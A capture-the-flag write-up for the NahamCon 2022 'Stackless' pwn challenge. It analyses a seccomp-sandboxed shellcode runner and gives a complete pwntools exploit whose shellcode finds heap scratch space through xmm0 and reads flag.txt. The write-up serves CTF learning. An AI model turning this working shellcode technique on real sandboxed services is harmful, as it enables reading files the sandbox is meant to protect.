 # NahamCon CTF 2022

## Stackless

> Oh no my stack!!!! 
>
> Author: @M_alpha#3534
>
> [`stackless.c`](stackless.c) [`stackless`](stackless) [`Makefile`](Makefile) [`Dockerfile`](Dockerfile)

Tags: _pwn_ _x86-64_ _shellcode_ _seccomp_ 


## Summary

Classic shellcode runner constrained by seccomp with _common_ registers reset for the lulz.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  Finally.

> BTW, you get all this sweet sweet security for free with `gcc -O2`.


### Source Included

```c
    signal(SIGALRM, timeout);
    alarm(60);
    sandbox();

    __asm__ volatile (".intel_syntax noprefix\n"
                      "mov r15, %[addr]\n"
                      "xor rax, rax\n"
                      "xor rbx, rbx\n"
                      "xor rcx, rcx\n"
                      "xor rdx, rdx\n"
                      "xor rsp, rsp\n"
                      "xor rbp, rbp\n"
                      "xor rsi, rsi\n"
                      "xor rdi, rdi\n"
                      "xor r8, r8\n"
                      "xor r9, r9\n"
                      "xor r10, r10\n"
                      "xor r11, r11\n"
                      "xor r12, r12\n"
                      "xor r13, r13\n"
                      "xor r14, r14\n"
                      "jmp r15\n" ".att_syntax"::[addr] "r"(code));
```

Since this is just a standard shellcode runner, I'm not going to include the entire source here--just submit shellcode and it runs it for you; simple as that.

Above are the constraints.

First, `sandbox` is called to setup a seccomp filter.  A more compact way to examine this is with `seccomp-tools`:

```bash
# seccomp-tools dump ./stackless
Shellcode length
1
Shellcode
1
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0012
 0008: 0x15 0x03 0x00 0x00000003  if (A == close) goto 0012
 0009: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0012
 0010: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

We're limited to `read`, `write`, `open`, `close`, `exit`, and `exit_group` syscalls.

The second constraint is actually more of a dick move--the _common_ registers are reset (zeroed).  Including `r15` since a 3-byte instruction is prepended to your submitted shellcode to reset `r15` before your code starts to run.

With `rsp` zeroed and PIE enabled, we have no idea where in memory what we can use as a scratchpad to read in and emit the flag from.

However, our lulzy challenge author was not thorough and left a number of _uncommon_ registered set.  From `gdb` use `i all-r`.

`xmm0` looked most promising:

```
gef➤  i r xmm0
xmm0           {
  v4_float = {0x41000000, 0x0, 0x0, 0x0},
  v2_double = {0x0, 0x0},
  v16_int8 = {0x10, 0xa4, 0x55, 0x55, 0x55, 0x55, 0x0, 0x0, 0xe0, 0xab, 0xf8, 0xf7, 0xff, 0x7f, 0x0, 0x0},
  v8_int16 = {0xa410, 0x5555, 0x5555, 0x0, 0xabe0, 0xf7f8, 0x7fff, 0x0},
  v4_int32 = {0x5555a410, 0x5555, 0xf7f8abe0, 0x7fff},
  v2_int64 = {0x55555555a410, 0x7ffff7f8abe0},
  uint128 = 0x7ffff7f8abe0000055555555a410
}
```

Specifically `v2_int64 = {0x55555555a410, 0x7ffff7f8abe0},`.

Comparing to my memory map:

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /pwd/datajerk/nahamconctf2022/stackless/stackless
0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
```

It looks like that first location is in the next page after the heap and the heap is `rw`--exactly what we need for a scratchpad.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./stackless', checksec=False)

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30375)
else:
    p = process(binary.path)

shellcode = asm(f'''
movq r15, xmm0
sub r15, 0x1000

lea rdi, [rip+flag]
mov rax, {constants.SYS_open}
syscall

mov rdi, rax
mov rsi, r15
mov rdx, 100
mov rax, {constants.SYS_read}
syscall

mov rdx, rax
mov rdi, {constants.STDOUT_FILENO}
mov rax, {constants.SYS_write}
syscall
hlt

flag: .asciz "flag.txt"
''')

if not args.REMOTE: print(disasm(shellcode))

p.sendlineafter(b'length\n', str(len(shellcode)).encode())
p.sendlineafter(b'code\n', shellcode)
flag = p.recvline().strip().decode()
p.close()
print(flag)
```

The `shellcode` should be fairly obvious:

1. Get the location from `xmm0` that is in the page after the heap and subtract `0x1000` from it.
2. Open `flag.txt`
3. Read `flag.txt` into heap.
4. Write to stdout.


Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 30831: Done
[*] Closed connection to challenge.nahamcon.com port 30831
flag{2e5016f202506a14de5e8d2c7285adfa}
```
